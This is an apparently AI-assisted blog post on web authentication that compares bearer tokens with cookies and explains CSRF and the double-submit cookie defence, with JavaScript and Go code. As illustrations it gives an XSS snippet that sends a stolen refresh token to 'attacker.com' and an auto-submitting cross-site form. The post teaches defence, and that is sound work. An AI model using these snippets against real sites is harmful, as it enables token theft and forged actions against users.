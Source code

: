 ```yaml
---
title: 'Web Security: Cookies, and CSRF'
date: '2025-07-31'
tags: web-security, authentication, csrf, web-development, security
ai-gen: true
---
```


Recently, I dove into authentication and CSRF (Cross-Site Request Forgery) protection while building a modern web app with both browser and mobile clients. Here's what I learned about keeping your applications secure.

## Bearer Tokens vs. Cookies for Authentication

### Bearer Tokens

- Sent in the `Authorization` header: `Authorization: Bearer <token>`
- Ideal for mobile, desktop apps, and SPAs
- Not sent automatically by browsers - must be set explicitly
- Immune to CSRF attacks (malicious sites can't set custom headers)

### Cookies

- Automatically sent by browsers with every request
- Can be secured with `HttpOnly` flag
- Vulnerable to CSRF attacks if not properly protected
- Browsers will send cookies even for malicious cross-site requests

## Understanding CSRF and Its Impact

**CSRF (Cross-Site Request Forgery)** occurs when a malicious website tricks a user's browser into making unwanted requests to your backend. If your application only checks for valid cookies, an attacker could perform actions on behalf of your users without their knowledge.

## When Is CSRF Protection Necessary?

- **Cookies for authentication?**

Use case: Storing refresh token in cookie is safest way in the web.

**Alternative - localStorage is prone to XSS**: Storing refresh tokens in localStorage creates a significant security vulnerability. If an attacker successfully injects malicious JavaScript (XSS), they can easily steal the token:

```javascript
// Malicious script injected via XSS
const stolenToken = localStorage.getItem('refreshToken');
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token: stolenToken })
});
```

**Why cookies are safer**: Even with XSS, HttpOnly cookies cannot be accessed by JavaScript, making them immune to token theft.

- ✅ Required for all state-changing endpoints (POST, PUT, DELETE, etc.) e.g. `/refresh` and `/logout`

**CSRF Attack Example**: Consider a banking application where a user is logged in. An attacker creates a malicious website that automatically submits a form to the bank's logout endpoint:

```html
<!-- Malicious website form -->
<form action="https://bank.com/logout" method="POST" id="csrf-form">
  <input type="hidden" name="action" value="logout">
</form>
<script>
  // Automatically submit the form when page loads
  document.getElementById('csrf-form').submit();
</script>
```

If the user visits this malicious site while logged into their bank account, they could be logged out without their knowledge. With CSRF protection, the bank would require a valid CSRF token in the request headers, which only the legitimate bank website can provide.

- **Bearer tokens in headers?**
  - ❌ Not needed
  - Browsers can't set `Authorization` headers on cross-origin requests

## How CSRF Protection Works

The standard defense is the **double-submit cookie** pattern:

1. Server sets a CSRF token cookie (not `HttpOnly`)
2. Frontend JavaScript reads this token and sends it in a custom header (e.g., `X-CSRF-Token`)
3. Backend verifies the token in the header matches the cookie value

This works because while browsers automatically send cookies, only your legitimate frontend can read the CSRF token and include it in the request headers.

## Implementation Example

**Frontend (JavaScript):**

```javascript
// Get CSRF token from cookie
function getCSRFTokenFromCookie(): string | null {
  const match = document.cookie.match(/(?:^|; )csrf_token=([^;]*)/);
  return match ? decodeURIComponent(match[1]) : null;
}

// Get CSRF token from
async function getCSRFTokenSafe(): Promise<string> {
  const csrfToken = getCSRFTokenFromCookie();
  if (csrfToken && csrfToken.length > 0) {
    return csrfToken;
  }

  // Only try authenticated CSRF token endpoint
  await fetch('/csrf', {
    credentials: 'include',
  });

  const newCsrfToken = getCSRFTokenFromCookie();
  if (!newCsrfToken) {
    throw new Error('CSRF token not found');
  }

  return newCsrfToken;
}

// Read CSRF token from cookie and include in request
const csrfToken = await getCSRFTokenSafe()
fetch('/api/sensitive-action', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'X-CSRF-Token': csrfToken,
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({ action: 'update' }),
});
```

**Backend (Go example):**

```go
// csrf endpoint
func (h *TokenHandler) HandleGetCSRFToken(w http.ResponseWriter, r *http.Request) {
	// validate refresh token
	validationResult := h.validateRefreshToken(r)

	// If token is revoked/invalid, clear cookies and return 401
	if !validationResult.IsValid {
		utils.RespondWithJSON(w, http.StatusUnauthorized, nil)
		return
	}

	csrfToken, err := utils.GenerateCSRFToken() // a secure random key of 32 bytes
	if err != nil {
		log.Printf("Failed to generate CSRF token: %v", err)
		http.Error(w, "Internal server error", http.StatusInternalServerError)
		return
	}
	utils.SetCSRFCookie(w, csrfToken)
	utils.RespondWithJSON(w, http.StatusOK, nil)
}

// CSRF middleware to protect state changing endpoints like /refresh or /logout
func CSRFMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        csrfCookie, err := r.Cookie("csrf_token")
        if err != nil {
            http.Error(w, "CSRF token missing", http.StatusForbidden)
            return
        }

        csrfHeader := r.Header.Get("X-CSRF-Token")
        if csrfHeader == "" || csrfHeader != csrfCookie.Value {
            http.Error(w, "Invalid CSRF token", http.StatusForbidden)
            return
        }

        next.ServeHTTP(w, r)
    })
}
```

## Key Security Takeaways

1. **Bearer tokens** are ideal for APIs and client-side applications
2. **Cookies** work well for web but require CSRF protection
3. **CSRF tokens** must be implemented correctly to be effective
4. Always use **HTTPS** to protect tokens in transit
5. Keep your authentication logic simple and well-tested

## Final Thoughts

Security is not a feature you can bolt on at the end - it needs to be part of your application's foundation. By understanding these concepts and implementing them correctly, you'll be well on your way to building more secure web applications.

Remember: The best security is layered security. Combine these techniques with other security measures like rate limiting, input validation, and regular security audits for maximum protection.

_This article was generated with the assistance of Claude 4. Always review and adapt security practices to your specific use case and requirements._
